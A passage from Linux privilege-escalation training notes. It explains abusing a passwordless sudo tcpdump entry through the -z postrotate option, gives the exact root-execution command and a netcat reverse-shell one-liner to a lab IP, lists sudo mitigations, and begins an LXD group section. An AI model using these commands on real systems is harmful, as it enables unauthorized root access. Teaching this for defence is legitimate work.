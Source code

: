     User sysadm may run the following commands on NIX02:
          (root) NOPASSWD: /usr/sbin/tcpdump

For example, if the sudoers file is edited to grant a user the right to run a command such as `tcpdump` per the following entry in the sudoers file: `(ALL) NOPASSWD: /usr/sbin/tcpdump` an attacker could leverage this to take advantage of a the **postrotate-command** option.

By specifying the `-z` flag, an attacker could use `tcpdump` to execute a shell script, gain a reverse shell as the root user or run other privileged commands. For example, an attacker could create the shell script `.test` containing a reverse shell and execute it as follows:

    sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root

Let's try this out. First, make a file to execute with the `postrotate-command`, adding a simple reverse shell one-liner.

    cat /tmp/.test
    
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 443 >/tmp/f


<a id="org7e0f660"></a>

### Mitigations

[AppArmor](https://wiki.ubuntu.com/AppArmor) in more recent distributions has predefined the commands used with the `postrotate-command`, effectively preventing command execution. Two best practices that should always be considered when provisioning `sudo` rights:

1.  Always specify the absolute path to any binaries listed in the `sudoers` file entry. Otherwise, an attacker may be
    able to leverage PATH abuse (which we will see in the next section) to create a malicious binary that will be
    executed when the command runs (i.e., if the `sudoers` entry specifies `cat` instead of `/bin/cat` this could likely be
    abused).
2.  Grant `sudo` rights sparingly and based on the principle of least privilege. Does the user need full `sudo` rights?
    Can they still perform their job with one or two entries in the `sudoers` file? Limiting the privileged command that
    a user can run will greatly reduce the likelihood of successful privilege escalation.


<a id="org8048c5b"></a>

## Privileged Groups


<a id="org6ddefc3"></a>

### LXC/LXD

LXD is similar to Docker and is Ubuntu's container manager. Upon installation, all users are added to the LXD group. Membership of this group can be used to escalate privileges by creating an LXD container, making it privileged, and then accessing the host file system at `/mnt/root`. Let's confirm group membership and use these rights to escalate to root.
